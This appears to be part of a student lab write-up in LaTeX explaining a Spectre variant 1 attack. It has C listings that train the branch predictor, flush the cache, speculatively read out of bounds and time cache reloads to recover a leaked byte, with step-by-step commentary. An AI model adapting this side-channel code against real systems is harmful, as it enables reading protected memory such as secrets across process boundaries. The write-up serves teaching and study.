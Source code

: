 \documentclass[12pt]{article}
\begin{document}
\subsubsection{Spectre Attack(varient 1)}
\begin{lstlisting}[style=CStyle]
void spectreAttack(size_t larger_x)
{
	int i;
	uint8_t s;
	// Train the CPU to take the true branch inside victim().
	for (i = 0; i < 10; i++) {
		_mm_clflush(&buffer_size);
		restrictedAccess(i);
	}
	// Flush buffer_size and array[] from the cache.
	_mm_clflush(&buffer_size);
	flushSideChannel();
	// Ask victim() to return the secret in out-of-order execution.
	s = restrictedAccess(larger_x);
	array[s*4096 + DELTA] += 88;
}
\end{lstlisting}

This function flushes buffer\_size and calls restrictedAccess() with elements within buffer\_size enough number of times. As restrictedAccess() requires buffer\_size to check if the access is valid and buffer\_size was flushed to memory(its not present in cache), it takes a \textbf{lot of time to retrive buffer\_size}. As most processors use branch predictors and as restrictedAccess() is called with valid index many times, the \textbf{branch predictor gets trained} to pridect \textbf{branch not taken} in the `if condition' of restrictedAccess().\\
After this the function calls flushSideChannel() to ensure that all elements are \textbf{brought to cache only during execution of line 15}.\\
Calling spectreAttack with a large value say larger\_x should ideally return 0, but because the buffer\_size is flushed and speculative execution \textbf{predicts branch not taken} the restrictedAccess(larger\_x) returns buffer[larger\_x] and if the statement in line 15 gets executed, $array[s*4096+DELTA]$ is brought to cache.\\
Immediately after buffer\_size has arrived from memory the proccessor realizes that the speculative execution was wrong(by execution of if statement in restrictedAccess()) and reverts back everything that happened till this point.
But this does not flush the element $array[s*4096+DELTA]$ from cache. 
The current state is all the elements except $array[s*4096+DELTA]$ are present in main memory but $array[s*4096+DELTA]$ is present in the cache.   
 
   
\subsubsection{Reload Side Channel}
\begin{lstlisting}[style=CStyle]
static int scores[256];
void reloadSideChannel()
{
	int i;
	volatile uint8_t* addr;
	register uint64_t time1, time2;
	int junk = 0;
	for (i = 0; i < 256; i++) {
		addr = &array[i*4096 + DELTA];
		time1 = __rdtscp(&junk);
		junk = *addr;
		time2 = __rdtscp(&junk) - time1;
		if (time2 <= CACHE_HIT_THRESHOLD)
		scores[i]++; 
	}
}
\end{lstlisting}
\end{document}

